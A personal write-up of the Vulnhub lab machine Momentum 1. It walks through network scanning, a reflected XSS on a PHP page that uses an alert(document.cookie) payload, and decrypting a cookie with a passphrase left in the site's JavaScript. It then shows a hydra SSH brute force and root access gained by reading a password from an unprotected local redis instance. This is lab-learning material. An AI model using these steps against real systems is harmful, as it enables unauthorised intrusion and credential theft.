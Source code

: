 ```yaml
---
title: Vulnhub Momentum 1 Writeup
date: 2022-05-24 12:00:00 -0700
categories: [ctf]
tags: [hacking,writeup,web,linux] # TAG names should always be lowercase
---
```


# Momentum 1
---

First i started off with a network scan to obtain the IP and services of the box

```bash
nmap $IP/24
nmap -sC -sV -oN nmap/initial $IP
```

once done i see that their is an **ssh** port and an **http** port open on the box

seeing that it is a webserver i decided to start my enumeration to see if their are any extra pages i might miss.

```bash
gobuster dir -u http://$IP/ -w ~/path/to/wordlist.txt
```

looking through the output i see nothing useful so i go digging in the webpage with inspect element.
while looking through the files and what happens when reloaded i look at the source code of the site. along with the js files and css.

in the js file i notice this 

```javascript
function viewDetails(str) {

  window.location.href = "opus-details.php?id="+str;
}

/*
var CryptoJS = require("crypto-js");
var decrypted = CryptoJS.AES.decrypt(encrypted, "SecretPassphraseMomentum");
console.log(decrypted.toString(CryptoJS.enc.Utf8));
*/
```

having just recently started looking at Javascript i see that their is another webpage that my enumeration couldnt find.
i emediatly take the bit of url their and past it into the url of the site.
in doing so i see that whatever i put down in the **id=** field will be displayed on the webpage. 
again having just recently started messing with **XSS** i go and try to exicute an alert and it worked.( pretty simple )

i tried multiple different things such as: a remote shell (didnt work), LFI (didnt work), even some DB scripts, and nothing. 
then while doing some research i saw that most people when given a cookie try stuff with that.
so i went and looked at the cookie in inspect-element -> application -> cookie or by causing the page to execute 

```HTML
<script> alert(document.cookie)</script>
```

it looked to be encrypted and with the info the js file gave me i figured it was using crypto-js with AES to encrypt it. so i looked online for a decoder and found one [here](https://stackblitz.com/edit/cryptojs-aes-encrypt-decrypt?file=index.js) that was able to decrypt it for me.
it needed the password in order to decrypt which i saw in the js file that it was 
**" SecretPassphraseMomentum "**
which in turn gave me this as the text 
**" auxerre-alienum## "** 

now with this i figured with the ssh port open it might be a password but what would i use as the username and password?
given the decrypted passphrase i figured it had to be some permutation of it so i made a [[passphrase.txt|wordlist]] to bruteforce it with hydra.

```bash
hydra -L wordlist.txt -P wordlist.txt <IP of target> ssh
```

and bam i got the username and password

```
[22][ssh] host: <ip>   login: auxerre   password: auxerre-alienum##
```

so i ssh'd in with the credentials

```bash
ssh auxerre@<ip>
auxerree@<ip> password: auxerre-alienum##
```

once in i see a **user.txt** i cat it out and 

```
[ Momentum - User Owned ]
---------------------------------------
flag : 84157165c30ad34d18945b647ec7f647
---------------------------------------
```

First flag!!!

now to get root.

i imported [[linpeas.sh|linpeas]] to autoenumerate and found that their was an open port on 6379 listening on localhost.
after a little research i see that it is a [[6379-pentesting-redis|redis]] instance and that it potentialy could be used as a privesc vector.
looking at the documentation on what commands to do to log in i found out i can just use 

```bash
redis-cli
```

and then similar to a ftp connection i can find info in the instance. 
using the command

```redis
keys *
```

i see that their is a key called rootpass
and so i 

```redis
get rootpass
```

and i recieved this string
**m0mentum-al1enum##**

i then logged in as root with the password

```bash
su root 
Password: m0mentum-al1enum##
```

once logged in i cat root.txt in /root and get

```
[ Momentum - Rooted ]
---------------------------------------
Flag : 658ff660fdac0b079ea78238e5996e40
---------------------------------------
by alienum with <3
```

i now have the final flag!!
